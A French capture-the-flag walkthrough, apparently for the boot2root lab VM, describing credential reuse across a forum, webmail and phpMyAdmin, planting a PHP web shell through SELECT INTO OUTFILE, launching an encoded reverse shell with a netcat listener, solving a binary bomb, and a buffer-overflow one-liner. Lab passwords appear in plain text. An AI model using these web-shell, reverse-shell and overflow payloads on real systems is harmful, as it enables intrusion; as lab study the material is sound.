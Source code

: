# Forum

## Rappel

Utilisateurs: 
- admin
- lmezard
- qudevide
- zaz
- wandre
- thor

Mot de passe: `!q\]Ej?*5K5cy*AJ`

En essayant ce mdp un peu partout (ssh puis forum) avec tous les users connus,
on trouve que ce mdp appartient à lmezard sur le forum.

## Gagner l'acces

Depuis la page utilisateur de lmezard, on trouve son mail
`laurie@borntosec.net`

On tente alors de se connecter a son webmail via la route `/webmail`
avec le meme mot de passe et ça fonctionne !

on lit le mail `DB Access`, il contient le couple d'identifiants
`root:Fg-'kKXBj87E:aJ$` qui devrait correspondre aux identifiants de la DB, ou de phpmyadmin

on tente alors de se connecter a PHPMyadmin, succes
On explore alors un peu, on tente d'identifer les hash des mots de passe, sans succes
on passe lmezard en admin du forum, ça ne nous aide pas plus...

## Reverse shell

Apres beaucoup de temps a chercher et tenter des trucs, on a une idée:

Utiliser la query console phpmyadmin pour créer un reverse shell php et le lancer via "forum"
Le probleme etant qu'on ne sait pas ou on peux ecrire, ni ou ecrire pour lancer un script

On télécharge alors my little forum a la version correspondante,
trouvée sur la page "update" du mode admin (finalement ça aura servi), qui est `2.3.4`

Et on tente d'explorer l'arborescence du forum, en mirroir avec ce qu'on a téléchargé.
Le seul chemin qui nous permettait à priori de lancer du php est le chemin `/forum/templates_c/<fichier>.php`

On tente alors d'ecrire a cet endroit, d'abord avec un `phpinfo()` pour tester
En supposant que le forum est rangé dans `/var/www/forum`

```SQL
SELECT '<?php phpinfo() ?>' INTO OUTFILE "/var/www/forum/templates_c/info_file.php"
```
Et ça fonctionne ! Acceder a `https://<ip>/forum/templates_c/info_file.php` renvoie bien les infos sur PHP

On fait alors la meme avec un fichier qui va ecouter le query parameter `cmd`,
l'executer dans un shell et nous renvoyer le resultat:

```SQL
SELECT '<?php system($_GET["cmd"]);?>' INTO OUTFILE "/var/www/forum/templates_c/shell.php"
```
(trouvable dans `scripts/shell.php`)

On accede ensuite a `https://<ip>/forum/templates_c/shell.php?cmd=whoami` pour tester si ça fonctionne
on reçoit `www-data` ça fonctionne donc bien.

On sonde un peu pour avoir plus d'infos, notamment la présence ou non de python,
python est bien présent (`which python` retourne un resultat concluant)

On tente alors un script python de reverse shell connu (trouvable dans `scripts/shell.py.sh`),
mais par precaution pour eviter tout soucis avec des caracteres non gérés
on le passe en base64 puis on url encode la commande suivante

```
printf "<reverse shell en base64>" | base64 -d | sh
```
Ça décode code en base64 et puis ça le lance dans shell

De notre coté on lance netcat en mode écoute avec la commande suivante:
```
nc -nlvp <PORT>
```

On lance le script grace a notre fichier PHP et hop, ça fonctionne !

On stabilise le shell a l'aide du protocole suivant:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
puis CTRL-Z
```
stty raw -echo; fg
```
et enfin
```
export TERM=xterm
```

On a maintenant un reverse shell propre sur le serveur.

## Sur le serveur

Une fois sur le serveur on explore un peu.
Notre première trouvaille intéressante est dans `/home`
on y trouve le dossier `LOOKATME` qui est le seul dossier accessible.
Dedans on voit un fichier `password` nous donnant les credentials suivant:
`lmezard:G!@M6f4Eatau{sF" `

On essaie ses credentials en ssh puis en ftp,
succès sur le ftp. On explore ce qui est a disposition, deux fichiers
`fun` et `README`

On les télécharge sur notre machine et on comprend par le readme que c'est un puzzle
> Complete this little challenge and use the result as password for user 'laurie' to login in ssh

en faisant la commande `file` sur le fichier `fun`, on y comprend que c'est une archive tar.
on l'extrait et on regarde son contenu.

Plein de fichiers PCAP contenant des portions d'un programme en C.
Les fichiers sont dans le désordre mais son numérotés.
A l'aide de du script `merge.py` on remet les fichiers dans l'ordre et on les concatene
dans un seul fichier.

On retire les données poubelles avec `sanitize.sh`, et encore un peu de traitement a la main.
On compile le programme et hop

```
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
```

on s'execute et ça fonctionne, on est connectés en ssh en tant que laurie
(mdp: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`)

Depuis le compte de laurie, on trouve deux fichiers, bomb et readme, encore une enignme.

## Da bomb
La bombe a 6 niveaux, chaque niveau a son code. Le mot de passe de thor correspond
aux 6 codes cote a cote.

Notre premier reflexe est de décompile le code avec radare2 et gihdra, selon nos préférences.

Certains niveaux sont plutot simples, ne constituent que d'une string écrite en clair
d'autres sont des algorithmes plus complexes.

Nous avons porté les codes dans le script `defuser.py`. Celui contient ou les solutions en dur
ou l'algorithme inversé qui permet d'obtenir le code.

Le seul vraiment complexe est le niveau 6, nous avons deviné qu'il fallait
une combinaison de 6 chiffres uniques allant de 1 a 6 inclus.

Nous avons alors mis en place un script qui désamorce la bombe, en tentant
les combinaisons possibles. Petit hic, bien que la bombe soit désarmocée
le mot de passe ne fonctionne pas...
(voir `defuser.bash` et `defuser.py`)

### Secret phase
Après pas mal d'essais et de dépatouillage:

En regardant le code décompilé, nous avons constaté qu'il existe une phase secrete
accessible en rajoutant "austinpowers" a la 4eme phase

On a pas trouvé le mdp de la phase secrete, mais en tentant des substitutions du mot de passe
de la 6 on trouve ce mot de passe pour thor:

`Publicspeakingisveryeasy.126241207201b2149opekmq426135`
Cette partie est très étrange et personne n'a réellement trouvé d'exu même,
A chaque fois, le mot de passe apparait par magie...

646da671ca01bb5d84dbb5fb2238dc8e
`./exploit_me $(python -c "print('A' * 140 + '\x60\xb0\xe6\xb7' + 'A'*4 + '\x58\xcc\xf8\xb7')")`



## Sources

Buffer overflow: https://beta.hackndo.com/buffer-overflow/
Oneliners de reverse shell: https://0xss0rz.github.io/2020-05-10-Oneliner-shells/
Stabiliser un reverse shell: https://brain2life.hashnode.dev/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal
